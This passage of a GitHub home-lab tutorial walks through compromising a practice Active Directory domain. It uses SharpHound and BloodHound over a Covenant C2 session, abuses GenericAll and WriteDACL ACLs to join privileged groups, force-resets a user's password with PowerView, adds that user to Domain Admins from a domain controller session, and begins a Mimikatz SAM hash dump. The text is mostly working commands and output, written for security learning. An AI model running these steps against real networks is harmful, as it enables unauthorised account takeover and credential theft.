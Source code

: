 # 4. Movement, Pivoting, and Persistence in Domain

> ### Machines Required: WorkStation-01,02 and Domain Controller

## 1. Domain Through BloodHound

- Interact with the session of user s.chisholm, Change the directory to `C:\Users\Public`and upload `sharphound.exe` on the target machine.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/2ed13000-782a-4e4e-8208-38af83fa52ff)

- Execute the sharphound by using cmd `shell sharphound.exe -c all`.

```powershell
(singhx) > shell sharphound1.exe -c all

76 name to SID mappings.
 1 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2023-07-27T14:14:54.0910809+01:00|INFORMATION|SharpHound Enumeration Completed at 2:14 PM on 7/27/2023! Happy Graphing!
```
- Download the `zip` file using Covenant's download command.

```powershell
(singhx) > download 20230727141452_BloodHound.zip

Download completed: 20230727141452_BloodHound.zip
```
- Start `neo4j console` and log in.
- Open BloodHound and upload the zip file we downloaded.
- On navigating to the Analysis tab and finding the shortest path to domain admins we get a graph showing the path to domain admins.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/092a6d8e-06bf-4b55-a8d1-2c3e9d8bc812)

## 2. Abusing ACLs

- Download [PowerView_dev.ps1](https://github.com/lucky-luk3/ActiveDirectory/blob/master/PowerView-Dev.ps1) and upload to the target machine using Covenant's Upload method.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/42592b10-2287-4788-bb00-92640b397eac)

- Here we have an escalation path from user s.chisholm to domain admins.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/53c1f8b1-8045-46e2-aca1-9a28f825850b)

- Move to the PowerShell console, change the directory to `C:\Useers\Public` and invoke `powerview_dev.ps1` in the console.
- use cmd `net user s.chisholm /domain` to get details about the user. The user is a member of Sales, Domain users.

```powershell
PS C:\Users\s.chisholm.mayorsec> cd c:\users\public
PS C:\users\public> . .\powerview_dev.ps1
PS C:\users\public> net user s.chisholm /domain
The request will be processed at a domain controller for domain mayorsec.local.
User name                    s.chisholm

---------------------------------SNIP-----------------------------------------

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users         *Sales
The command completed successfully.
```

- As we have `GenericAll` permission for the user we can add the user to the group.
- Let's add "s.chisholm" to the group "Engineering".

```powershell
PS C:\users\public> net group engineering s.chisholm /add /domain
The request will be processed at a domain controller for domain mayorsec.local.

The command completed successfully.
```
- Actively observing at Bloodhoundd graph we also have `GenericAll` permissions to the "IT ADMINS" group.

```powershell
PS C:\users\public> net group "IT ADMINS" s.chisholm /add /domain
The request will be processed at a domain controller for domain mayorsec.local.

The command completed successfully.
```
- Now, we will reset the password for the user `j.taylor` by using the `-Force` method.

```powershell
PS C:\users\public> $SecPassword = ConvertTo-SecureString "FallOutBoy1!" -AsPlainText -Force
PS C:\users\public> $SecPassword = ConvertTo-SecureString 'FallOutBoy1!' -AsPlainText -Force
PS C:\users\public> $cred = New-Object System.Management.Automation.PSCredential('mayorsec\s.chisholm', $SecPassword)
PS C:\users\public> $UserPass = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
PS C:\users\public> Set-DomainUserPassword -Identity j.taylor -AccountPassword $UserPass -Credential $cred
```
- On looking for information on user "j.taylor" we get to know that it's in the administrators group.

```powershell
PS C:\users\public>  net user j.taylor /domain
The request will be processed at a domain controller for domain mayorsec.local.

User name                    j.taylor

------------------SNIP-----------------------

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *Domain Users         *IT Admins
The command completed successfully.
```

- Now, we can log in to `PS Session` using "j.taylor's" credentials.

```powershell
PS C:\users\public> Enter-PSSession -ComputerName dc01 -Credential mayorsec\j.taylor
[dc01]: PS C:\Users\j.taylor\Documents> whoami;hostname
mayorsec\j.taylor
DC01
```

- On observing at Bloodhound graph. User "j.taylor" has `WriteDACL` permissions to the "Administrators" group.

```powershell
[dc01]: PS C:\Users\j.taylor\Documents> net group "Domain Admins" j.taylor /add /domain

The command completed successfully.
```

- To verify our action we can use cmd `net user j.taylor` to see if the user is now a member of the Domain Admins group.

```powershell
[dc01]: PS C:\Users\j.taylor\Documents> net user j.taylor
User name                    j.taylor

------------------------SNIP------------------------

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *Domain Admins        *Domain Users
                             *IT Admins
```

## 3. Pivoting Through Remote Desktop via Compromised Host

- Come back to our Covenant session and run cmd `Mimikatz token::elevate lsadump::sam`.
- In return, we will get a hash for user "j.taylor"

